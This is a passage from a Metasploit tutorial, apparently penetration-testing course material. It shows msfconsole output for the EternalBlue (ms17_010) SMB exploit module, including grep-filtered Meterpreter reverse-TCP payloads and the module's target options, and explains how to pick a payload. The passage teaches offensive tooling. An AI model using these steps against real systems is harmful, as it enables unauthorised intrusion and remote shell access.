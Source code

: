Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   
   
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter grep reverse_tcp show payloads

[*] 3
```

With the help of `grep`, we reduced the list of payloads we wanted down to fewer. Of course, the `grep` command can be used for all other commands. All we need to know is what we are looking for.

***

### Selecting Payloads

Same as with the module, we need the index number of the entry we would like to use. To set the payload for the currently selected module, we use `set payload <no.>` only after selecting an Exploit module to begin with.

**MSF - Select Payload**

Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs



msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
```